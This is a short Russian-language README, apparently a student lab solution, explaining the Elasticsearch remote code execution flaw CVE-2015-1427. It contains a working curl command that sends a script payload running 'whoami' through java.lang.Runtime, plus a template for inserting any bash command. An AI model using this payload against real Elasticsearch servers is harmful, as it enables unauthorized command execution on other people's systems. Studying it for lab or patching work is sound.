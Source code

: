 # CVE-2015-1427
Уязвимость RCE есть в Elastic search 1.4.0 < 1.4.2. 
Elasticsearch – это одна из самых популярных поисковых систем в области Big Data, масштабируемое нереляционное хранилище данных с открытым исходным кодом, аналитическая NoSQL-СУБД с широким набором функций полнотекстового поиска.

## Как работает эксплоит?
Мы использовали данный сплоит:
```bash
curl -s http://localhost:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}' | grep "myscript" | awk -F '\\[ "' '{print $2}' | sed 's/\\n" ]//g'
```
Он работает следующим образом - посылается POST-запрос с полезной нагрузкой на хост, где используется уязвимая версия Elastic Search'a.
## Как запускается эксплоит?
Запуск эксплойта происходит в среде bash с помощью программы curl(можно любой софт, который позволяет отправлять POST-запросы):

Полезная нагрузка находится в JSON-структуре `script`:
```
"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"ТУТ ЛЮБОЙ BASH-ПЭЙЛОАД").getText()"
```
![](https://github.com/waqeen/cyber_security21/blob/scriptkiddies/solutions/CVE-2015-1427/images/full_access.png)

